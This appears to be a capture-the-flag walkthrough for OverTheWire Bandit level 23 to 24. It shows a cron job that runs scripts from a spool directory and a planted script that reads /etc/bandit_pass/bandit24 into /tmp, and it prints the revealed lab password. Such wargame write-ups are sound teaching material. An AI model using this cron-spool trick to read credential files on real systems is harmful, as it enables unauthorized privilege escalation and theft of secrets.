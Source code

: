 ## 25 Level 23 → Level 24

### Problem Statement

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Relevant Material: `cron` , `crontab` , `crontab(5)` (use " man 5 crontab"), `bash` 

### Solution

```bash
$ cat /etc/cron.d/cronjob_bandit24
$ cat /usr/bin/cronjob_bandit24.sh
##!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

$ cd tmp
$ mkdir rb
$ touch bandit24key
$ touch bandit24key.sh
$ nano bandit24key.sh

##!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/rb/bandit24key

$ chmod -c 777 bandit24key.sh
$ chmod -c 777 bandit24key
$ cp /tmp/rb/bandit24key.sh /var/spool/bandit24/
$ cat /tmp/rb/bandit24key
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
